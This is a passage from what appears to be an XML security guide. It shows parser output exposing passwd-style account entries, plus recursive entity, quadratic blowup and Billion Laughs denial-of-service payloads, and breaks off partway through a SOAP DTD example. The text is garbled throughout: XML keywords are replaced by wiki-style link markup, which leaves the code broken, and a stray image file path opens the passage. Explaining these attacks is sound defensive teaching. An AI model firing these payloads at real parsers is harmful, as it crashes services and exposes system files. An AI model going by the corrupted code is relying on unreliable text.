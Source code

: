 The previous code produces the following output:
$ java parseDocument
<![[_content/dictionary#D|DOCTYPE]] contacts [[_content/dictionary#S|SYSTEM]] "contacts.dtd">John### User Database
...
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh

##### Recursive Entity Reference¶
When the definition of an element A is another element B, and that element B is defined as element A, that schema describes a circular reference between elements:
<![[_content/dictionary#D|DOCTYPE]] A [
 <![[_content/dictionary#E|ELEMENT]] A [[_content/dictionary#A|ANY]]>
 <![[_content/dictionary#E|ENTITY]] A "<A>&B;</A>">
 <!ENTITY B "&A;">
]>
<A>&A;</A>

##### Quadratic Blowup¶
Instead of defining multiple small, deeply nested entities, the attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion (O(n^2)).
The result of the following attack will be 100,000 x 100,000 characters in memory.
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ELEMENT]] root [[_content/dictionary#A|ANY]]>
 <![[_content/dictionary#E|ENTITY]] A "AAAAA...(a 100.000 A's)...AAAAA">
]>
<root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root>

##### Billion Laughs¶
When an [[_content/dictionary#X|XML]] parser tries to resolve the external entities included within the following code, it will cause the application to start consuming all of the available memory until the process crashes. This is an example XML document with an embedded [[_content/dictionary#D|DTD]] schema including the attack:
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ELEMENT]] root [[_content/dictionary#A|ANY]]>
 <![[_content/dictionary#E|ENTITY]] [[_content/dictionary#L|LOL]] "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>

The entity LOL9 will be resolved as the 10 entities defined in LOL8; then each of these entities will be resolved in LOL7 and so on. Finally, the [[_content/dictionary#C|CPU]] and/or memory will be affected by parsing the 3 x 10^9 (3,000,000,000) entities defined in this schema, which could make the parser crash.
The Simple Object Access Protocol ([[_content/dictionary#S|SOAP]]) specification forbids DTDs completely. This means that a SOAP processor can reject any SOAP message that contains a [[_content/dictionary#D|DTD]]. Despite this specification, certain SOAP implementations did parse DTD schemas within SOAP messages.
The following example illustrates a case where the parser is not following the specification, enabling a reference to a DTD in a SOAP message:
<?[[_content/dictionary#X|XML]] [[_content/dictionary#V|VERSION]]="1.0" [[_content/dictionary#E|ENCODING]]="[[_content/dictionary#U|UTF]]-8"?>
<![[_content/dictionary#D|DOCTYPE]] SOAP-[[_content/dictionary#E|ENV]]:[[_content/dictionary#E|ENVELOPE]] [
 <![[_content/dictionary#E|ELEMENT]] SOAP-ENV:ENVELOPE [[_content/dictionary#A|ANY]]>